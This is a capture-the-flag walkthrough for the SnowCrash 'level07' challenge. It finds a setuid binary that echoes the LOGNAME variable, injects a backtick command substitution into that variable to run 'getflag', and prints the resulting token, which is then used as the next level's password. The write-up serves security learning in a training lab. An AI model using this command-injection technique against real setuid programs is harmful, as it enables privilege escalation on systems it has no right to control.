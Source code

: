 # level07

Using `ls`, we can discover another binary.

```bash
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

Let's dump his strings.

```bash
level07@SnowCrash:~$ readelf -p .rodata level07

String dump of section '.rodata':
  [     8]  LOGNAME
  [    10]  /bin/echo %s 
```

Ok, there is an attack vector on the %s echo parameter, we can see using section number that is probably passing LOGNAME env variable.

```bash
level07@SnowCrash:~$ ./level07
level07
level07@SnowCrash:~$ env | grep LOGNAME
LOGNAME=level07
```

Let's try to exploit it. Using ``` to evaluate command.

```bash
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Perfect, let's head to level08.

```bash
level07@SnowCrash:~$ su level08
Password: fiumuikeil55xe9cu4dood66h
level08@SnowCrash:~$ 
```
